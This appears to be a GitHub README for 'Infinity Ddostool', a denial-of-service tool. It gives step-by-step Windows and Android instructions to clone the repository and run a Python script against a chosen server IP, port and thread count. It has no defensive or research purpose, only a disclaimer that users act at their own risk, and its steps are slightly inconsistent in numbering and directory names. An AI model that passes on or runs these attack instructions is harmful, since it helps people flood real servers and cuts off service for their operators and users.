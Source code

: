 # Infinity Ddostool

This is the official Infinity Ddostool. Please use this at own risk, we aren't accountable for anything that happens to you. If you don't know how this works, here's a tutorial:

# Tutorial - Windows

**This is how to ddos on Windows!**\
(1) Download Git: https://gitforwindows.org/ \
(2) Open Git Bash\
(4) Type: git clone https://github.com/InfinityZeldris/ddostool \
(5) Then type : cd startddos\
(6) Finally, type: python startddos.py -s [Server IP] -p 80 -t 135

# Tutorial - Android

**This is how to ddos on Android!**\
(1) Download Termux - Link below\
(2) Open Termux\
(3) first type : pkg install git  (Wait until it's finished)\
(3) then type this: pkg install python\
(4) then type : git clone https://github.com/InfinityZeldris/ddostool \
(5) then type : cd ddostool\
(6) and last type: python ddostool.py -s server ip -p 80 -t 135
